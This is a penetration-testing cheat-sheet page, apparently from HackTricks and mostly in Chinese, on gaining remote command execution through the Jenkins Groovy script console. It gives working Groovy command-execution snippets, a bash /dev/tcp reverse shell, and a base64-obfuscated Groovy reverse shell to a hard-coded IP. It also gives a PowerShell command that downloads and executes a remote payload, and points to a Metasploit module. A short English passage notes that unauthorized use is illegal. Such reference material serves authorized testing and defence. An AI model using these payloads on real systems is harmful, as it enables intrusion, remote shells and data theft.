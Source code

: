 # Jenkins使用Groovy脚本进行远程命令执行（RCE）

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## Jenkins使用Groovy脚本进行远程命令执行（RCE）

这比在Jenkins中创建一个新项目要更简洁。

1. 转到 _path\_jenkins/script_
2. 在文本框中输入脚本
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
您可以使用以下方式执行命令：`cmd.exe /c dir`

在**Linux**中，您可以执行以下操作：**`"ls /".execute().text`**

如果您需要在文本中使用_引号_和_单引号_，您可以使用_"""PAYLOAD"""_（三个双引号）来执行有效载荷。

**另一个有用的Groovy脚本**是（替换\[插入命令]）：
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### 在Linux中的反向Shell

A reverse shell is a technique used in penetration testing to gain remote access to a target machine. It involves establishing a connection from the target machine to the attacker's machine, allowing the attacker to execute commands on the target machine.

To create a reverse shell in Linux, you can use the following command:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

Replace `ATTACKER_IP` with the IP address of your machine and `ATTACKER_PORT` with the port number you want to use for the connection.

This command redirects the input and output of the bash shell to a TCP connection established with the attacker's machine. It effectively creates a reverse shell, allowing the attacker to interact with the target machine's command line.

Once the reverse shell is established, the attacker can execute commands on the target machine as if they were physically present. This can be used to perform various actions, such as exploring the file system, running privilege escalation exploits, or exfiltrating sensitive data.

It's important to note that using reverse shells for unauthorized access to systems is illegal and unethical. Reverse shells should only be used in controlled environments for legitimate purposes, such as penetration testing or network administration.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### 在Windows中的反向Shell

您可以准备一个带有PowerShell反向Shell的HTTP服务器，并使用Jenkins下载并执行它：
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### 脚本

您可以使用[**此脚本**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py)自动化此过程。

您可以使用MSF获取反向shell：
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想看到您的公司在 HackTricks 中被广告，或者如果您想访问最新版本的 PEASS 或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass)，或在 **Twitter** 上 **关注** 我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来 **分享您的黑客技巧**。

</details>

